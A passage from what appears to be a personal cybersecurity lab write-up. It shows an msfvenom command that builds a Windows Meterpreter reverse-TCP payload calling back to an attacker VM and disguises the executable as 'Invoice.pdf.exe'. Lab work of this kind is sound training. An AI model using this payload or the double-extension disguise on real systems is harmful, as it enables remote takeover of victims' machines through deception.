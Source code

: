 ![revtcp_payld](assets/img/CybLabRevShell/rev_tcp_payload.png)


# 2. Selecting a payload and creating a executable file using the payload

In this step I ran this command using msfvenom CLI "msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.20.13 lport=4444 -f exe -o Invoice.pdf.exe". This command select the payload, and then using Lhost which is our attacker Kali Linux VM IPv4 address with lport of "4444" to connect and then create a executable file using -f flag and then save the payload to that executable file in this case it was Invoice.pdf.exe. To hide the executable format I used ".pdf" before ".exe". After runing this command the executable payload file was successfully created on the desktop of the attacker Kali Linux VM.

Msfvenom command to select and create the payload malware file on the attacker Kali Linux VM: